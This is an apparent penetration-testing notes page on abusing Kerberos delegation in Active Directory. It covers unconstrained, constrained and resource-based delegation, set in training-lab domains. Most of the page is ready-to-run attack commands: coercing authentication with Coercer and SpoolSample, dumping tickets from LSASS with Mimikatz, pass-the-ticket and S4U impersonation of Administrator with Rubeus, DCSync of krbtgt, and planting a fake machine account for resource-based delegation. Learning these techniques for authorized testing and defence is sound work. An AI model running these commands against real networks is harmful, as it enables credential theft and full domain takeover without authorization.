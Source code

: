 # Kerberos Delegation

**Kerberos delegation:** allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

***

{% hint style="warning" %}
Unconstrained Delegation: `TrustedForDelegation` = True

Constrained Delegation: `TrustedToAuthForDelegation` = True
{% endhint %}

***

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

```powershell
# powerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

```

### **Exploitation**

#### Kali

and also you can use [Coercer](https://github.com/p0dalirius/Coercer) to forced Authentication with the server or DC has Unconstrained Delegation using any domain user

```bash
Coercer.py coerce \
  -u <user> -d <domain> -p <password> \
  -t <targetServer_OR_User> -l <listener/UD> --always-continue

#  Ex
Coercer.py coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue
```

#### Windows

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### **Printer bug**

The printer bug uses an RPC call of MS-RPRN (`print spooler service`) which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

![image.png](../../../.gitbook/assets/image.png)

**1. Run on compromised Server Rubeus monitor**

```powershell
# run it on server has Unconstrained Delegation # to open Listener
Rubeus.exe monitor /interval:5 /nowrap

# spectator on ticket in memoty
```

<figure><img src="../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. pass-the-ticket

```powershell
#Copy the base64 encoded TGT
Rubeus.exe ptt /ticket:<ticket.kirbi>
```

4. DCSync

```powershell
mimikatz.exe
lsadump::dcsync /domain:domain.local /user:krbtgt
```

***

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as Service for user (S4U):

* Service for User to Self (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user. (server can impersonate user in the same range)
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user. but services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### **Enumerate**

```powershell
# powerView
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# AD Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

### **Exploitation**

```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:USer-Delegate-Service /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```

***

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD(Resource Based Constrained Delegation \*\*\*\*) we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

انا كماشين 1 و عايز اعمل اكسيس علي ماشين 2 فلازم انا ابقي تبع الوايت ليست اللي حطاها الماشين اللي بتستقبل الاتصال اللي هي ماشين 2 علي عكس الكونستريند دليكشين المرسل هو اللي بيحط وايت ليس للي هيستقبل

### **Enumerate**

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

{% hint style="danger" %}
if **`ms-ds-machineaccountquota ≠0`** we can execute **`NoPac Attack`** which allowed to Escalate user privilege to domain Admin privilege using one command
{% endhint %}

### **Exploitation**

**Create fake machine**

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

**Change security descriptor**

<figure><img src="../../../.gitbook/assets/imagggge.png" alt=""><figcaption></figcaption></figure>

```powershell
$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
```

**Abuse using Rubeus**

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate wch ask for S4U2Self + S4U2Proxy TGS
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```

\
